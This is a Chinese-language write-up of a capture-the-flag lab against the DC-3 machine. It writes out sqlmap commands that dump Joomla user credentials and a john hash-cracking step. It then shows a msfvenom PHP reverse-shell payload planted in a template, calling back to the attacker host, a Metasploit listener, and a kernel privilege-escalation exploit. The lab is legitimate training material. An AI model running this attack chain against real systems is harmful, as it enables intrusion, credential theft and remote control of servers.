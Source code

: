 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-3（192.168.1.）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.11
```

![image-20220110203517991.png](../../_img\06-靶场实践/1652256194361-2524b082-b229-477f-b617-b79465006747.png)

可以看到目标机开放了80端口HTTP服务


## 目录扫描

可以看到网站后台路径

![image-20220110204506347.png](../../_img\06-靶场实践/1652256198478-a01eb2d4-dbd3-45af-ba37-9c16481360b7.png)

在浏览器访问网站后台，通过标题可以发现使用的是joomla搭建的站点

![image-20220110204514438.png](../../_img\06-靶场实践/1652256202188-c8f13d83-e81c-4597-ae1c-53c8374f3b2d.png)


## 漏洞扫描

已经知道是使用的joomla搭建的站点那么使用joomscan扫描站点

[不知道什么是joomscan?点这里](https://www.freebuf.com/sectool/181440.html)

```
joomscan --url http://192.168.1.11
```

![image-20220110204557133.png](../../_img\06-靶场实践/1652256207763-5a96fe0a-fbc1-45a4-88dc-80925012127d.png)

从结果可以看到 joomla的版本是 3.7.0

查看joomla 3.7.0的漏洞有哪些

```
searchsploit joomla 3.7.0
```

![image-20220110204618326.png](../../_img\06-靶场实践/1652256212029-e0578894-125c-4994-895a-8c6e4565b027.png)

可以发现joomla 3.7.0 存在SQL注入漏洞

查看42033.txt的内容

![image-20220110204807674.png](../../_img\06-靶场实践/1652256215174-262be897-e1a4-4d75-a437-693ffc318999.png)

文档中指出可以使用sqlmap进行注入 并将参数列了出来


## 漏洞利用

使用sqlmap扫描，暴库

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![image-20220110205106024.png](../../_img\06-靶场实践/1652256221047-9a27c003-22a5-4e97-9492-e2f20d8c9f9b.png)

爆表

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20220110205257745.png](../../_img\06-靶场实践/1652256225003-39ef2db6-b0cd-4eaf-a561-b915f46b3045.png)

爆字段

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" --columns -p list[fullordering]
```

![image-20220110205625696.png](../../_img\06-靶场实践/1652256228844-accac433-9b27-4402-b76d-a2edf7d670b9.png)

拖库

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" -C "name,password" --dump -p list[fullordering]
```

![image-20220110205722192.png](../../_img\06-靶场实践/1652256232749-97da86f2-c589-44cb-8b56-0679427cae83.png)

得到了admin和密码的哈希值

将密码存入文件password中使用john破解

```
john password
```

![image-20220110205855317.png](../../_img\06-靶场实践/1652256235949-5385e53e-a1f4-4278-a5b7-f5e96ec0322b.png)

得到了密码snoopy

登陆后台

![image-20220110205928274.png](../../_img\06-靶场实践/1652256239394-868519b5-9676-490c-ba25-ee24799dd107.png)

在template栏中发现可以写文件，我们可以写一个木马上去

![image-20220110210247843.png](../../_img\06-靶场实践/1652256243049-30ea4c2a-4e93-4cd8-856f-ebf61b7fa98d.png)


## 反弹shell

使用msfvenom生成一个php木马文件

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220110211818024.png](../../_img\06-靶场实践/1652256247617-e4d301bb-cd3a-40c0-a4e3-056439f82c67.png)

将error.php文件内容替换为生成的木马内容保存

![image-20220110212201986.png](../../_img\06-靶场实践/1652256253133-deb863e1-4346-4f62-9d00-790587b2d0f4.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

在浏览器中访问木马文件就得知道木马文件所在的位置

![image-20220110212256338.png](../../_img\06-靶场实践/1652256256478-508db622-e3cd-4ba3-90ca-1e596c893675.png)

```
http://192.168.1.11/templates/beez3/error.php
```

成功反弹shell

![image-20220110212314866.png](../../_img\06-靶场实践/1652256260909-c8134e9a-0cd8-46b6-b8ca-68d51ef866fa.png)


## 提权

进入shell，并使界面看起来正常

```
shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20220110212754433.png](../../_img\06-靶场实践/1652256265639-360a7de5-7ddf-42f4-9e31-756a84577f5e.png)

查看系统版本

```
cat /proc/version
cat /etc/issue
```

![image-20220110212917909.png](../../_img\06-靶场实践/1652256268955-c5c8557f-12a0-40ca-b4c9-a0255e0bafb1.png)

查找Ubuntu16.04的提权漏洞

```
searchsploit Ubuntu 16.04
```

![image-20220110213039355.png](../../_img\06-靶场实践/1652256272323-7313e9ba-e1be-4480-9240-bb4e085a4746.png)

查看39772.txt的内容

```
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

在文末可以看到利用方法和下载地址

![image-20220110213400265.png](../../_img\06-靶场实践/1652256276825-892161df-ddbd-49a5-9c92-8520e17135a9.png)

将文件下载到攻击机中并上传到靶机的/tmp目录

```
upload /root/39772.zip /tmp
```

![image-20220110213852195.png](../../_img\06-靶场实践/1652256281364-6e58070c-b239-4fc3-a365-942085999709.png)

进入shell解压

![image-20220110214210063.png](../../_img\06-靶场实践/1652256288370-c9dd8843-b368-4955-8917-667e3dc8984b.png)

编译

```
./compile.sh
```

![image-20220110214359617.png](../../_img\06-靶场实践/1652256292932-3a493d4f-be09-4c8e-8ea9-40ad401420c8.png)

提权

```
./doubleput
```

![image-20220110214703808.png](../../_img\06-靶场实践/1652256299833-34e131d2-c760-4774-9cbd-ef8f85b664eb.png)


## final-flag

在rootg根目录下找到flag

![image-20220110214935672.png](../../_img\06-靶场实践/1652256305412-6b1fa477-4ba3-4204-98c2-b4c8fda8b770.png)
